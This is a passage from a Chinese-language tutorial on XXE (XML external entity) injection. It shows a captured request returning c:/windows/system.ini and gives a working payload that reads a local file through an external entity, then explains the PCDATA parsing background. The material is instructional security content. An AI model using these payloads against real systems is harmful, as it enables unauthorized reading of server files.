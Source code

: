 **访问**

![1605945314_5fb8c7e23829ef7ca26b5.png!small?1605945314824](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1605945314_5fb8c7e23829ef7ca26b5.png!small)

**刷新并抓包，POST我们构造的payload**

![1605945317_5fb8c7e57a2ceb414156d.png!small?1605945318220](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1605945317_5fb8c7e57a2ceb414156d.png!small)

**发包返回我们查看的c:/windows/system.ini**

![1605945321_5fb8c7e930b979c13cc17.png!small?1605945321657](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1605945321_5fb8c7e930b979c13cc17.png!small)

## 读取文件时有特殊符号

在读取文件时，文件中包含"<,>,&"等这些特殊符号时，会被xml解析器解析，报错从而导致读取失败，例如尝试读取以下文件

C:\test.txt

内容：

```
<Baize Sec>
```

payload:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [<!ENTITY xxe SYSTEM "file:///c:/test.txt">]>
<creds>&xxe;</creds>
```

![1607183441_5fcbac51be8a7f781bccd.png!small](XXE%E5%A4%96%E9%83%A8%E5%AE%9E%E4%BD%93%E6%B3%A8%E5%85%A5/1607183441_5fcbac51be8a7f781bccd.png!small)

可以看到与读system.ini不同，这里报错了，想知道原因需要了解CDATA和PCDATA

### PCDATA

PCDATA 指的是被解析的字符数据（Parsed Character Data）。

XML 解析器通常会解析 XML 文档中所有的文本。

当某个 XML 元素被解析时，其标签之间的文本也会被解析：

```
<message>此文本也会被解析</message>
```

解析器之所以这么做是因为 XML 元素可包含其他元素，就像这个例子中，其中的 <name>元素包含着另外的两个元素(first 和 last)：

```
<name><first>Bill</first><last>Gates</last></name>
```

而解析器会把它分解为像这样的子元素：

```
<name>
<first>Bill</first>
<last>Gates</last>
</name>
```
